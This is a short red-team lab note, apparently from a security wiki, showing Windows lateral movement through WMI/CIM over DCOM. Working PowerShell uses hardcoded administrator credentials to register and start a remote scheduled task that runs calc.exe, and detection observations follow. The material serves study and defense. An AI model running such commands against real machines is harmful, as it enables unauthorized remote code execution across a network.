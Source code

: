 # WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Graphic showing both of the above commands and also the process ancestry on the target system:

![](../.gitbook/assets/peek-2018-10-19-22-24.gif)

## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may also want consider monitoring for new scheduled tasks that get created on your systems:

![](../.gitbook/assets/screenshot-from-2018-10-19-22-35-13.png)

![](../.gitbook/assets/screenshot-from-2018-10-19-22-59-12.png)

{% hint style="info" %}
Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe
{% endhint %}

